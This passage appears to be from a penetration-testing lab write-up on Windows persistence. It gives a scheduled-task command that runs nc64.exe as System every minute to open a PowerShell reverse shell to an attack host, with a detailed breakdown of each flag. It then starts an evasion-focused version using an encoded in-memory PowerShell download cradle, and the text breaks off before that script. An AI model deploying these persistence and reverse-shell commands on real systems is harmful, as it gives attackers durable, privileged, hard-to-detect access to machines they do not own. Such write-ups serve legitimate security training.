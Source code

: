 ```powershell
schtasks /create /tn BackDoor /tr "C:\Users\Administrator\Documents\nc64.exe  10.10.14.31 6666 -e powershell" /sc minute /mo 1 /ru System
```

-   {{< figure src="/ox-hugo/2025-04-22-071157_.png" >}}
    -   +Note+: This techniques runs every 1 minute and calls out to my attack machine. This means that even if I disconnect I can turn on my listener again and it will call back out to our attack host:

Shell Caught

-   {{< figure src="/ox-hugo/2025-04-22-071316_.png" >}}

Just to double check I disconnect to ensure it calls back out to me:

-   {{< figure src="/ox-hugo/2025-04-22-071334_.png" >}}



-  Scheduled Task Backdoor Command Breakdown Running a Binary:

    -   **Command Breakdown**:
        -   `schtasks /create`
            -   Creates a new scheduled task on Windows.
        -   `/tn BackDoor`
            -   Sets the task name to `BackDoor`.
            -   This name is how the task will appear in the Task Scheduler.
        -   `/tr "C:\Users\Administrator\Documents\nc64.exe 10.10.14.31 6666 -e powershell"`
            -   Specifies the action that the task will execute.
            -   **Path**: `"C:\Users\Administrator\Documents\nc64.exe"`
                -   Path to `nc64.exe`, used to open a reverse shell.
            -   **IP Address\***: `10.10.14.31`
                -   Our attack machine that is listening where the reverse shell will connect.
            -   **Port**: `6666`
                -   The port number on our attack machine listening for the connection.
            -   **Flag**: `-e powershell`
                -   The `-e` flag executes `powershell.exe` upon connection, providing a command shell.
        -   `/sc minute`
            -   Sets the task's schedule frequency to every minute.
        -   `/mo 1`
            -   Modifier that, when used with `/sc minute`, runs the task every 1 minute.
        -   `/ru System`
            -   Specifies that the task should run with `System` privileges.
            -   Running as `System` grants high privileges, making this backdoor more dangerous.


##### Version 2: Using a base64 encoded PowerShell reverse shell and download cradle to connect back to our attack host: {#version-2-using-a-base64-encoded-powershell-reverse-shell-and-download-cradle-to-connect-back-to-our-attack-host}

So using the above method with nc64.exe is great and all, but an n64.exe binary will stick out like a sore thumb. A better option would be to create a powershell script and use a download cradle to call back to ourselves, this way everything is loaded in memory and nothing is written to the disk (bar our registry entry)

**Create our reverse-shell script**:

